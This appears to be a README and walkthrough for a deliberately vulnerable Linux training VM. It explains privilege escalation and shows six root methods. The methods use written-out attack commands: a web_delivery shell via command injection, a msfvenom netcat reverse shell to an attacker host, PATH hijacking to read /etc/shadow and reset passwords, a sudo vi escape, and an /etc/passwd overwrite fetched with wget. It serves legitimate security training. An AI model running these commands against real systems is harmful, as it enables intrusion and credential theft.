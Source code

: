 # Vulnerable_Machine(Linux)

An intentionally developed Linux vulnerable virtual machine.The main focus of this machine is to learn Linux Post Exploitation (Privilege Escalation) Techniques.

A Linux vulnerable virtual machine contains different features as.

12+ ways of Privilege Escalation
Vertical Privilege Escalation
Horizontal Privilege Escalation
Multi-level Privilege Escalation

## What is Privilege Escalation?

Privilege escalation can be defined as an attack that involves gaining illicit access of elevated rights, or privileges, beyond what is intended or entitled for a user. This attack can involve an external threat actor or an insider. Privilege escalation is a key stage of the cyberattack chain and typically involves the exploitation of a privilege escalation vulnerability, such as a system bug, misconfiguration, or inadequate access controls. In this blog, I will explain how privilege escalation works, the key attack vectors involved with privilege escalation, and the critical privileged access security controls you can implement to prevent or mitigate it.

## Vertical vs Horizontal Privilege Escalation

Privilege escalation attacks can be separated into two broad categories—horizontal privilege escalation and vertical privilege escalation. Often confused with each other, these terms are can be differentiated as follows:

Horizontal privilege escalation involves gaining access to the rights of another account—human or machine—with similar privileges. This action is referred to as “account takeover.” Typically, this would involve lower-level accounts (i.e. standard user), which may lack proper protection. With each new horizontal account compromised, an attacker broadens their sphere of access with similar privileges.
Vertical privilege escalation, also known as a privilege elevation attack, involves an increase of privileges/privileged access beyond what a user, application, or other asset already has. This entails moving from a low-level of privileged access, to a higher amount of privileged access. Achieving vertical privilege escalation could require the attacker to perform a number of intermediary steps (i.e. execute a buffer overflow attack, etc.) to bypass or override privilege controls, or exploit flaws in software, firmware, the kernel, or obtain privileged credentials for other applications or the operating system itself. In 2020, elevation of privilege vulnerabilities comprised 44% of all Microsoft vulnerabilities, according to the Microsoft Vulnerabilities Report 2021.


## Vulnerable Machine : Walkthrough

## Security Level: Beginner-Intermediate


# Scanning:
start off by scanning the network using Netdiscover tool and identify the host IP address.
scan the services and ports of target machine with nmap

# Enumeration:
we can see port 80 is open, so we tried to open the IP address in our browser and got nothing but the default Apache webpage.
we used dirb with .php filter for directory enumeration.

After brute-forcing with dirb, we found a URL named http://192.168.x.xx/shell.php
Now we opened the URL in our browser and found that it accepts cmd as get parameter.
So, we passed the id command in the URL and found the results are reflected in the response.


# Exploiting
Since the target machine is vulnerable to command injection, we created a web delivery shell using Metasploit.
use exploit/multi/script/web_delivery
set srvhost 192.168.0.xx
set lhost 192.168.0.xx
exploita

The target host was not able to run the script directly, so we used URL encoding.

We got the bash shell of User6 after using python one-liner shell command.
To further enumerate the target host, we uploaded LinEnum tool on the target host.
upload /root/LinEnum.sh .
shell
python -c 'import pty;pty.spawn("/bin/bash")'
chmod 777 LinEnum.sh
./LinEnum.sh

From the results of LinEnum scan, we found that the target host has eight users namely user1, user2 up to user8.

We also found that in crontab, a file named autoscript.sh is being run every 5 minutes with root privileges.

From the same LinEnum scan, we came to know that /etc/passwd is writable for users also. Also, we found that we can run shell and script files with root privileges because SUID bit is enabled on it.


# Privilege Escalation:
Method 1: Get root shell by exploiting SUID rights of the shell file
Using the find command we can confirm that the shell file located in the home directory of user3 can be executed with root privileges.
We tried to execute the same file and got the root shell.
find / -perm -u=s -type f 2>/dev/null
cd /home/user3
./shell


Method 2: Get a root shell by cracking the root password
From the above screenshot, we know that the script file located in the user5 home directory can be executed with root privileges. Using the Path variable exploitation methodology we can access the /etc/shadow file.
cd /tmp
echo "cat /etc/shadow" > ps
chmod 777 ps
export PATH=/tmp:$PATH
cd /home/user5
./script
We copied the hashed password of root user in the hash file and used John The Ripper tool to crack the password. We got the password of the root as 12345 and then using the su command we were able to access as root.
john hash
su root


Method 3: Get root shell by exploiting SUDO rights of user1
We already know by now that script file can be executed with root privileges.
Using the same script file we can change the password of all the users with the help of Path variable methodology.
Here we used echo and chpasswd command to replace the existing password with our new password 12345. And then switched to the user1 account using su command. After checking the sudoer’s list for user1 we came to know that this user can run all commands as sudo.
So we ran the command sudo su and got the root access.
echo 'echo "user1:12345" | chpasswd' > ls
chmod 777 ls
export PATH=/tmp:$PATH
cd /home/user5
./script
su user1
sudo –l
sudo su


Method 4: Get root shell by exploiting crontab
In the previous screenshot, we saw there is a task scheduled after every 5 minutes for user4 in the crontab by the name autoscript.sh. We changed the password of user4 the same way as we did for user1 and then switched to user4 with the new password 12345. There we can see a file autoscript.sh in the Desktop folder.
su user4
ls -la
 we created a payload using msfvenom and then copied the code into autoscript.sh file using echo.
msfvenom –p cmd/unix/reverse_netcat lhost=192.168.0.xx lport=8888 R
echo "code" > autoscript.sh
After copying the code into autoscript.sh file we executed the file and started the netcat listener on our kali machine and waited for the shell.
nc –lvp 8888 id


Method 5: Exploiting SUDO rights of vi editor
We changed the password of all the users to 12345 using the same methodology as above and switched between users to check for more exploits. We found that user8 has a sudo permission for vi editors.
su user8
sudo -l

Open the vi editor with sudo and insert sh command as shown in the screenshot below, exit the editor and hurray we got the root shell.
:!sh
ids


Method 6: Exploiting writable permission of /etc/passwd file
Continuing with the enumeration of users, we found that user7 is a member of the root group with gid 0.
And we already know from the LinEnum scan that /etc/passwd file is writable for the user. So from this observation, we concluded that user7 can edit the /etc/passwd file.
tail /etc/passwd
su user7
id
So we copied the contents of /etc/passwd file in our kali machine and created a new user named raj with root privileges for which we generated a password pass123 using openssl.
openssl passwd -1 -salt ignite pass123
On the target machine, we downloaded the edited passwd file in the /etc folder using wget command.
Then we tried to switch to our newly created user raj and YES yet again we proudly got the root shell of the machine.
cd /etc
wget –O passwd http://192.168.0.xx:8000/passwd
su raj
id


## Virtual Machine

Format: Virtual Machine (Virtualbox - OVA)
Operating System: Linux

## Networking

DHCP service: Enabled
IP address: Automatically assign
